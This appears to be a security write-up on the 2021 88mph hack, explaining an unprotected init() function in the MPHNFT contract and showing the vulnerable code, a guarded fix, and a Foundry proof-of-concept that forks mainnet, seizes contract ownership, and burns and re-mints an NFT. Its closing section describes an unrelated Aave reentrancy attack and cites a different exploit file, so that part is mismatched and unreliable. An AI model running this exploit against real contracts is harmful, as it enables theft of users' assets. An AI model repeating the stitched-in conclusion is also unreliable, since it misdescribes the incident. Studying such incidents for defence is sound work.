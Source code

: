 # 88mph


## What's 88mph?

88mph is an Ethereum-based, decentralized application (dApp) 
for users who want to borrow and lend at a fixed interest rate. 
But instead of being a self-contained protocol, 88mph is actually a mediator
for more popular third-party lending dApps, such as Aave or Compound. It’s designed
for advanced DeFi investors who understand the perils of financial complexity.


## Amount stolen
$6.5 million USD

JUNE 15, 2021

## Vulnerability
```unprotected init()```



## Analysis

In the MPHNFT contract, there was a vulnerability present in 
init() function, which allowed any user to claim ownership of the contract. 
Best practices recommend using a constructor or an initialization 
guard to ensure that the initialization process happens only once.


### Exploited code

```solidity
    function init( 
        address newOwner,
        string calldata tokenName,
        string calldata tokenSymbol
    ) external {
        _transferOwnerShip(newOwner);
        _tokenName = tokenName;
        _tokenSymbol = tokenSymbol;

        _registerInterface(_INTERFACE_ID_ERC721_METADATA);
        _registerInterface(_INTERFACE_ID_ERC165);
        _registerInterface(_INTERFACE_ERC721);
    }
```
### A guard would simply look like this

```solidity
    bool private initialized = false;

    modifier onlyUninitialized() {
          require(!initialized, "MPHNFT: already initialized");
          _;
      }

    function init( 
        address newOwner,
        string calldata tokenName,
        string calldata tokenSymbol
    ) external onlyUninitialized {
        initialized = true;

        _transferOwnerShip(newOwner);
        _tokenName = tokenName;
        _tokenSymbol = tokenSymbol;

        _registerInterface(_INTERFACE_ID_ERC721_METADATA);
        _registerInterface(_INTERFACE_ID_ERC165);
        _registerInterface(_INTERFACE_ERC721);

    }
```






# proof of concept (PoC) 

selects a fork of the sepecified network

Because of the lack of access control we can simply call the `init` function to 
claim owner ship of the contract

Now that contract ownership has been established, 
it does not imply ownership of all the NFTs. However,
we gain the ability to manipulate the NFTs by using the `burn` operation 
to delete existing tokens and the `mint` operation to create new ones.

by burning a token it gets deleted and it allows the user to 



`mphNFT.mint(address(this), 1); // mint a new token 1`


 
```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.10;

   
contract ContractTest is DSTest {
    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);
    I88mph mphNFT = I88mph(0xF0b7DE03134857391d8D43Ed48e20EDF21461097);

    function setUp() public {
        cheats.createSelectFork("mainnet", 12_516_705); //fork mainnet at block 13715025
    }

    function testExploit() public {
        console.log("Before exploiting, NFT contract owner:", mphNFT.owner());
        mphNFT.init(address(this), "0", "0"); // exploit here, change owner to this contract address
        console.log("After exploiting, NFT contract owner:", mphNFT.owner());
        console.log("NFT Owner of #1: ", mphNFT.ownerOf(1));
        mphNFT.burn(1); //burn the token 1
        cheats.expectRevert(bytes("ERC721: owner query for nonexistent token"));
        console.log("After burning: NFT Owner of #1: ", mphNFT.ownerOf(1)); // token burned, nonexistent token
        mphNFT.mint(address(this), 1); // mint a new token 1
        console.log("After exploiting: NFT Owner of #1: ", mphNFT.ownerOf(1)); // token 1 now owned by us
    }

    function onERC721Received(address, address, uint256, bytes memory) public returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```

## Conclusion

The reentrancy attack in this context occurs within the `attackLogic` function, specifically when the liquidation call is initiated on the WETH asset within the Aave lending pool. Let's break down one more time how the reentrancy attack was executed:

### 1. Initiate Liquidation Call

- The `lendingPool.liquidationCall` function is invoked, initiating a liquidation call on the WETH asset.
- This call triggers the `ontokentransfer` function on the `.burn` method of the aToken, creating a reentrancy point.

### 2. Reentrancy in Liquidation Call

- As part of the Aave protocol's design, the `liquidationCall` function interacts with the aToken's `.burn` method.
- During this interaction, the aToken executes a series of actions, including transferring funds and updating internal states.

### 3. Reentrancy into External Function

- Since the `.burn` method can trigger external calls, control is transferred back to the `onTokenTransfer` function in your contract.

### 4. BorrowMaxtokens Execution

- The `borrowMaxtokens` function is then executed, allowing for the maximization of borrowing.
- This function interacts with the Aave lending pool to borrow additional funds based on the current state and conditions.

In summary, the reentrancy attack takes advantage of the reentrancy point created during the liquidation call. By triggering external calls within the Aave protocol, control is transferred back to your contract, allowing you to execute further actions, such as additional borrowing. This sequence of events exploits the vulnerability in the Aave protocol, leading to the reentrancy attack.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Agave_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
